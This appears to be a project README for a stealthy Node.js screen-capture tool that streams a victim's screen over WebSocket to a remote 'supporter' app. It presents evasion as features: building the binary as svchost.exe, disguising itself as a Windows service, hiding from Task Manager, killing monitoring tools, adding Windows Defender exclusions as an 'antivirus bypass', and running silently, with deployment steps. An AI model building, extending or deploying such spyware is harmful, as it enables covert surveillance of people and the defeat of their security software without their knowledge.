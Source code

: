 # Server CLI - Pure Node.js Screen Capture

## Overview
This is a lightweight CLI version of the server app that uses pure Node.js instead of Electron. It's much more stealthy and efficient.

## Benefits over Electron Version
- ✅ **90% smaller** - ~10MB vs 100MB+
- ✅ **5x faster startup** - No browser engine
- ✅ **80% less memory** - No Chromium overhead
- ✅ **Much more stealthy** - Looks like normal Node.js process
- ✅ **Easier to disguise** - Simple process name change
- ✅ **Simpler deployment** - Just Node.js + FFmpeg

## Features
- **Pure Node.js CLI** - No GUI, no Electron
- **FFmpeg screen capture** - Native cursor support
- **Process hiding** - Disguises as Windows service
- **WebSocket streaming** - Connects to supporter app
- **Admin privilege detection** - Adapts hiding methods
- **Silent operation** - No console output

## Installation

### 1. Install Dependencies
```bash
npm install
```

### 2. Setup FFmpeg
```bash
setup-ffmpeg.bat
```

### 3. Run the CLI
```bash
# Option 1: Direct Node.js
node main-cli.js

# Option 2: Using batch file
run-server.bat

# Option 3: Using npm script
npm start
```

## Building Executable

### Using pkg (Recommended)
```bash
# Install pkg globally
npm install -g pkg

# Build executable
npm run build

# Output: dist/svchost.exe
```

### Benefits of pkg
- **Single executable** - No Node.js installation needed
- **Native performance** - Compiled binary
- **Easy deployment** - Just copy the .exe file
- **Process disguising** - Appears as normal Windows executable

## Usage

### Basic Usage
```bash
# Start the tester CLI
node main-cli.js

# It will automatically:
# 1. Connect to supporter app (localhost:8080)
# 2. Start FFmpeg screen capture
# 3. Stream video to supporter
# 4. Hide process from Task Manager
```

### Advanced Usage
```javascript
// Customize settings in main-cli.js
const tester = new TesterCLI();
tester.screenWidth = 1920;
tester.screenHeight = 1080;
tester.framerate = 15;
tester.quality = 5;
tester.connectToSupporter('192.168.1.100', 8080);
```

## Process Hiding

### With Admin Privileges
- Complete Task Manager hiding
- System-level registry modifications
- Windows service creation
- Process monitoring tool termination
- Windows Defender exclusions

### Without Admin Privileges
- Process name change to `svchost`
- Low priority background operation
- Basic process disguising
- User-level registry modifications

## File Structure
```
server/
├── main-cli.js          # Main CLI application
├── package.json         # CLI package configuration
├── run-server.bat       # Windows batch runner
├── setup-ffmpeg.bat     # FFmpeg setup script
├── assets/
│   └── ffmpeg/          # FFmpeg binaries
├── ffmpeg-windows.js    # FFmpeg wrapper
└── ffmpeg-capture.js    # Generic FFmpeg capture
```

## Comparison: Electron vs CLI

| Feature | Electron | CLI |
|---------|----------|-----|
| Size | ~100MB | ~10MB |
| Memory | ~200MB | ~40MB |
| Startup | ~3s | ~0.5s |
| Stealth | Low | High |
| Dependencies | Many | Few |
| Detection | Easy | Hard |

## Security Features
- **Process disguising** - Appears as Windows service
- **Registry modifications** - System integration
- **Service creation** - Windows service disguise
- **Defender exclusions** - Antivirus bypass
- **Task Manager hiding** - Process list hiding
- **Silent operation** - No visible output

## Troubleshooting

### FFmpeg Not Found
```bash
# Run setup script
setup-ffmpeg.bat

# Check FFmpeg path
dir assets\ffmpeg\bin\ffmpeg.exe
```

### Connection Failed
```bash
# Check supporter app is running
# Default: localhost:8080
# Customize in main-cli.js
```

### Process Still Visible
```bash
# Run as administrator for full hiding
# Or use basic hiding without admin
```

## Performance Optimization
- **Low CPU usage** - Idle priority
- **Efficient encoding** - MJPEG with quality 5
- **Optimized resolution** - 1280x720 default
- **Reduced framerate** - 15 FPS default
- **Fast preset** - FFmpeg ultrafast preset

## Deployment
1. **Copy files** - server/ folder
2. **Run setup** - setup-ffmpeg.bat
3. **Start app** - run-server.bat
4. **Or build exe** - npm run build

The CLI version is much more suitable for stealth operations and resource-constrained environments.
